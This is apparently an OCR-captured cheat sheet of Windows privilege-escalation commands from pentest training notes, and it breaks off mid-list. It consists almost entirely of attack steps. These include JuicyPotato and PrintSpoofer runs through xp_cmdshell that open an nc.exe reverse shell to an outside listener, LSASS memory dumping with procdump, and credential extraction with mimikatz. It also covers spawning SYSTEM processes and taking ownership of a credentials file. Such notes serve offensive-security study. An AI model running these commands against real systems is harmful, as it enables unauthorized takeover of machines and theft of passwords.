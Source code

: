     - net localgroup administrators
- Get Password Policy & Other Account Information
    - net accounts
- Display Active Network Connections
    - netstat -ano
- Named Pipes
    - Listing Named Pipes with Pipelist
        - pipelist.exe /accepteula
    - Listing Named Pipes with PowerShell
        - gci \\.\pipe\
    - Reviewing LSASS Named Pipe Permissions
        - accesschk.exe /accepteula \\.\Pipe\lsass -v

## Windows Privileges

- SeImpersonate and SeAssignPrimaryToken
    - [mssqlclient.py](http://mssqlclient.py/) [sql_dev@10.129.43.30](mailto:sql_dev@10.129.43.30) -windows-auth
    - enable_xp_cmdshell
    - xp_cmdshell whoami /priv
    - xp_cmdshell whoami /priv
    - Escalating Privileges Using JuicyPotato
    - xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
    - sudo nc -lnvp 8443
    - JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
    - —
    - PrintSpoofer and RoguePotato
        - xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd”
- SeDebugPrivilege
    - procdump.exe -accepteula -ma lsass.exe lsass.dmp
    - mimikatz.exe
        - log
        - sekurlsa::minidump lsass.dmp
        - sekurlsa::logonpasswords
    - Create dump file
    - Remote Code Execution as SYSTEM
        - https://github.com/decoder-it/psgetsystem
        - tasklist
        - .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
        - winlogon.exe running under PID 612
        - .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent((Get-Process “lsass”).Id, ”C:\Windows\System32\cmd.exe”,"")
        - [https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- SeTakeOwnershipPrivilege
    - SeBackupPrivilege, SeRestorePrivilege, and SeSecurityPrivilege
    - https://github.com/FSecureLABS/SharpGPOAbuse
    - Reviewing Current User Privileges
        - whoami /priv
    - Enabling SeTakeOwnershipPrivilege
        - [https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
        - Import-Module .\Enable-Privilege.ps1
        - .\EnableAllTokenPrivs.ps1
        - whoami /priv
    - Choosing a Target File
        - Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
    - Checking File Ownership
        - cmd /c dir /q 'C:\Department Shares\Private\IT’
    - Taking Ownership of the File